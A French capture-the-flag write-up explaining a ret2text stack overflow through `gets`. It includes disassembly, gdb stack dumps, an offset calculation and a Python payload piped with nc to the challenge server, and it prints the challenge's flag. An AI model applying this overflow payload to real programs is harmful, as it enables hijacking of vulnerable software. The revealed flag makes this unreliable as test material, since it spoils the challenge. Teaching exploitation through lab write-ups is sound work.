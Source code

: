 # Write up

La fonction `gets` est dépréciée car elle n'est pas sécuritaire, mais elle existe toujours. Dans la plupart des versions de son `manpage`, on retrouve la phrase "Never use this function.". Cette fonction vulnérable nous permet de dépasser le _buffer_ alloué pour notre nom afin de modifier l'adresse de retour de la fonction flux.

En analysant le programme, il y a plusieurs manière de trouver la fonction qu'on désire exécuter. On peut identifier la chaîne de caractères "FLAG-XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" et trouver où elle est utilisée (ex: `xrefs` dans Ghidra). Si on désassemble simplement le programme avec `objdump`, on peut voir qu'il existe une fonction `detour`. C'est la seule fonction qui n'est pas appelée ce qui en fait une piste très intéressante pour nous; on note donc son adresse.

```
[...]
0000000000401156 <detour>:
  401156:       55                      push   rbp
  401157:       48 89 e5                mov    rbp,rsp
  40115a:       48 8d 35 a7 0e 00 00    lea    rsi,[rip+0xea7]        # 402008 <_IO_stdin_used+0x8>
  401161:       48 8d 3d c8 0e 00 00    lea    rdi,[rip+0xec8]        # 402030 <_IO_stdin_used+0x30>
  401168:       b8 00 00 00 00          mov    eax,0x0
  40116d:       e8 ce fe ff ff          call   401040 <printf@plt>
  401172:       90                      nop
  401173:       5d                      pop    rbp
  401174:       c3                      ret
[...]
```

Dans `gdb`, on peut observer que l'adresse de l'intruction suivant l'appel à `flux` est `0x401242`, on s'attend donc à retrouver cette celle-ci comme adresse de retour. On pourra utiliser cette valeur connue pour identifier son emplacement dans la _stack_.

```
0x40123d <main+110>       call   0x401175 <flux>
0x401242 <main+115>       mov    eax, 0x0
```

On peut ensuite coir l'état de la pile pour comment écraser l'adresse de retour. Dans l'exemple suivant, j'ai entré "TESTESTEST" comme nom. Voici la _stack_ près l'appel à `gets`:

```
gef➤  x/12wx $rsp
0x7fffffffd9d0: 0x54534554      0x45545345      0xff005453      0x00007fff
0x7fffffffd9e0: 0x00401070      0x00c700a4      0x73756f77      0x00686868
0x7fffffffd9f0: 0xffffda10      0x00007fff      0x00401242      0x00000000
             ^emplacement de $rbp
```

On peut voir que la valeur `0x00401242` se trouve 40 bytes après le début de notre buffer. Il faudra dont écrire 44 bytes et que les 4 derniers soient l'adresse de la fonction `detour` (`0x00401156`).

À partir de nos observations, on peut faire une représentation visuelle de la pile comme ceci:

```
                | 16 bytes                          |
                |  8 bytes        | 8 bytes         |
                |  4      | 4     | 4       | 4     |
                |  2 | 2  | 2 | 2 | 2  | 2  | 2 | 2 |
                |-----------------------------------|
                |-----------------------------------|
0x7fffffffd9d0  | son                               | //buffer qui enregistre notre son
                |-----------------------------------|
0x7fffffffd9e0  |0xc7|0xa4| pad | "woushhh"         |
                |-----------------------------------|
0x7fffffffd9f0  | ancien $rbp   |addr retour|       |
                ^$rbp
```

Nous avons maintenant toutes les informations nécessaires pour exploiter le programme et pouvons envoyer notre _payload_.

```
python2 -c 'print("A"*40 + "\x56\x11\x40\x00")' | nc unitedctf.ca 17001

ou bien

python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x56\x11\x40\x00" + b"\n")' | nc localhost 17001
```

Et on obtient le flag FLAG-RET2TEXT_4cc0mplished_j5fwyolcmPg !

